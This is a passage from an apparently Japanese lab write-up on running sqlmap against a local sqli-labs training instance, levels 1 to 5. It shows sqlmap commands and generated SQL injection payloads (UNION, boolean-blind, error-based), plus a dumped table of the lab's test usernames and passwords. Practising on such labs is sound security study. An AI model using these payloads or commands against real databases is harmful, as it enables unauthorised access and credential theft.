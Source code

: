 ```
    Payload: id=-6200' UNION ALL SELECT NULL,CONCAT(0x71786b7a71,0x556f6374546f58637a724149634156656161507666636d644a4c7264676271716f754a6f6f525945,0x7162767a71),NULL-- bzyx
---

（中略）

Database: security
Table: users
[13 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | Dumb     | Dumb       |
| 2  | Angelina | I-kill-you |
| 3  | Dummy    | p@ssword   |
| 4  | secure   | crappy     |
| 5  | stupid   | stupidity  |
| 6  | superman | genious    |
| 7  | batman   | mob!le     |
| 8  | admin    | admin      |
| 9  | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | admin4     |
+----+----------+------------+

(以下省略)
```
</div>

　どんどんレベルを上げていくことにする。  
下記３つも特にオプションを指定せずに、テーブルの内容を取得することができた。

- Less-2 (GET - Error based - Intiger based)
- Less-3 (GET - Error based - Single quotes with twist - string)
- Less-4 (GET - Error based - Double Quotes - String)

### Less-5 (GET - Double Injection - Single Quotes - String)

　時間短縮のために下記２点を変更しました。  

- 「`--dbms MySQL`」オプションの付与
- 「`--dump`」オプション(レコード内容を取得)を「`--banner`」オプション(DBのバナー情報を取得)に変更

<div class="md-code" style="width:100%">
```
$ python2.6 sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-5/?id=1" --banner --dbms MySQL

（中略）

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 5282=5282 AND 'FCUt'='FCUt

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 6146 FROM(SELECT COUNT(*),CONCAT(0x7170707a71,(SELECT (ELT(6146=6146,1))),0x7162787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'vYqp'='vYqp

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
```
